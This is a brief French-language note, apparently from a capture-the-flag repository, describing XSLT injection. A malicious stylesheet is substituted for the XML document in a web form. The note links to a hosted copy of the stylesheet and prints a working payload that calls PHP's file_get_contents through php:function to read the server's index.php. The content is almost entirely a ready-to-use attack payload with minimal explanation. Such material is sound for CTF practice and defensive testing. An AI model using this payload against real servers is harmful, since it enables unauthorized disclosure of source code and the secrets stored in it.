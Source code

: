 # XSLT
exemple de fichier malicieux utilisé en CTF pour lire le index.php:

on replace le document xml par notre page malicieuse dans le formulaire:

https://raw.githubusercontent.com/Aif4thah/misc-test/master/xslt

## Contenu1:

<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','index.php')"/>
</xsl:template>
</xsl:stylesheet>


